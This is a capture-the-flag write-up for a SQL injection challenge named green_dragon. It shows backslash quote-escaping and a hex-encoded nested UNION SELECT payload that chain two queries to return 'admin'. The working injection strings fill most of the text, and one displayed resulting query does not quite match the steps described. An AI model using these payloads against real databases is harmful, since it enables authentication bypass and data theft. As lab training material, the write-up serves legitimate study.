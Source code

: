 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 25
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a2a4e0ba-a94a-47b7-87fd-6b701374d2b8)

We are provided with two SQL queries:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

```sql
SELECT id FROM prob_green_dragon WHERE id='{$result[id]}' AND pw='{$result[pw]}'
```

We cannot use single or double quotes in this challenge. Therefore, we need to find another way to modify the existing query.

Let's provide the following URI:

```
?id=\
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw='{$_GET[pw]}'
```

As we can see, now the `\' AND pw=` part is being treated as a string. This is because the `\` character escapes the following character which was the closing single quote.

Anything we insert into the `?pw` parameter will thus be treated as code.

If we provide the following URI parameter:

```
?id=\&pw=UNION SELECT 1, 2 -- -

## id=\
## pw=UNION SELECT 1, 2 -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw=' UNION SELECT 1, 2 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/67f050bb-24ab-453d-9d4c-482e23491d03)

Interestingly, we can see that the values in the `?pw` parameter (`1,2`) have been inserted in the second query.

```sql
SELECT id FROM prob_green_dragon WHERE id='1' AND pw='2'
```

Using the same technique, in order to convert part of the second query into a string.

We can provide the following URI:

```
?id=\&pw=UNION SELECT 0x5C, 0x554e494f4e2053454c45435420307836313634366436393665202d2d202d -- -

## ?id=\
## ?pw=UNION SELECT 0x5C, 0x554e494f4e2053454c45435420307836313634366436393665202d2d202d -- -
```

`0x554e494f4e2053454c45435420307836313634366436393665202d2d202d` is the Hexadecimal representation of `UNION SELECT 0x61646d696e -- -` and `0x5C` id Hexademical for `\`.

The resultant first query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw=' UNION SELECT \, UNION SELECT 0x61646d696e -- - -- -'
```

The resultant second query becomes:

```sql
SELECT id FROM prob_green_dragon WHERE id='1' AND pw='2' UNION SELECT 0x61646d696e -- -
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/b3e82b2e-fb6d-4d6e-a363-e5b7526dcaf3)
